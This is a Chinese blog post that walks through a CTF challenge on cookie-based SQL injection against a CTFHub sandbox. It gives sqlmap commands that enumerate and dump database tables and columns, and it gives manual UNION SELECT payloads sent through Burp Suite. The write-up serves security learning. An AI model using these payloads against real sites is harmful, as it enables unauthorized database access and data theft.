





<!--yml
category: 未分类
date: 2022-04-26 14:36:07
-->

# ctf题解——sql注入（cookie注入）_ckkkkkkkkke的博客-CSDN博客

> 来源：[https://blog.csdn.net/ckkkkkkkkke/article/details/121061296](https://blog.csdn.net/ckkkkkkkkke/article/details/121061296)

**1.知识点**

　　cookie注入的原理是：就要修改cookie的值，我们是将提交的参数已cookie方式提交了，而一般的注入我们是使用get或者post方式提交，get方式提交就是直接在网址后面加上需要注入的语句，post则是通过表单方式，get和post的不同之处就在于一个我们可以通过IE地址栏处看到我们提交的参数，而另外一个却不能。

　　相对post和get方式注入来说，cookie注入就要稍微繁琐一些了，要进行cookie注入，我们首先就要修改cookie，这里就需要使用到Javascript语言了。

　　cookie注入的两个必须条件：

　　　　条件1是：程序对get和post方式提交的数据进行了过滤，但未对cookie提交的数据库进行过滤。

　　　　条件2是：在条件1的基础上还需要程序对提交数据获取方式是直接request("xxx")的方式，未指明使用request对象的具体方法进行获取，也就是说用request这个方法的时候获取的参数可以是是在URL后面的参数也可以是cookie里面的参数这里没有做筛选，之后的原理就像我们的sql注入一样了。

cookie注入分为以下几个阶段：

　　 1\. 判断是不是注入点

　　 2.得到字段总数

　　 3.查选表名

       4.查选列名

       5.查内容

 

**2.题解**

### **方法一 sqlmap自动注入**

```
python sqlmap.py -u "http://challenge-38d00693d21d6ccc.sandbox.ctfhub.com:10080" --cookie "id=1" --dbs --level 2

python sqlmap.py -u "http://challenge-38d00693d21d6ccc.sandbox.ctfhub.com:10080" --cookie "id=1" -D sqli --tables --level 2

python sqlmap.py -u "http://challenge-38d00693d21d6ccc.sandbox.ctfhub.com:10080" --cookie "id=1" -D sqli -T frkadyqcec --columns --dump --level 2 
```

语句一爆破出库名“sqli”



语句二--查表名



语句三--查列名



### **方法二 burpsuite手动注入**

 使用burpsuite进行抓包

找到注入点，进行注入


注入语句一，获得数据库123+union+select+database(),2#;



注入语句二，获得表名123 union select group_concat(table_name),2 from information_schema.tables where table_schema='sqli' #

 

注入语句三，获得列名123+union+select+group_concat(column_name),2 from information_schema.columns where table_schema='sqli' and table_name='prcvrbljct' #

